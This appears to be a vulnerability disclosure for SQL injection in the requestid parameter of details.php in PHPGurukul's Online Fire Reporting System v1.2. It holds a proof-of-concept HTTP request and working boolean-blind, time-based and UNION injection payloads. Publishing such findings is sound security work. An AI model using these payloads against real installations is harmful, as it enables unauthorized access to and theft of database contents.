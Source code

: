 # SQLi vulnerability in Online Fire Reporting System v1.2 of file details.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /details.php

**Version**

- V1.2

### POC

```http
GET /details.php?requestid=1 HTTP/1.1
Host: www.firereport.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
```



```
---
Parameter: requestid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: requestid=1' AND 9757=9757-- XFyx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: requestid=1' AND (SELECT 8941 FROM (SELECT(SLEEP(5)))mVRH)-- nNfM

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: requestid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7171627671,0x454d6c566c6f7a674d774f51534561624a4c564269736e6b57447667466c63754c4f5a4b76517155,0x716a767171),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



![image-20250531181031743](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311810071.png)





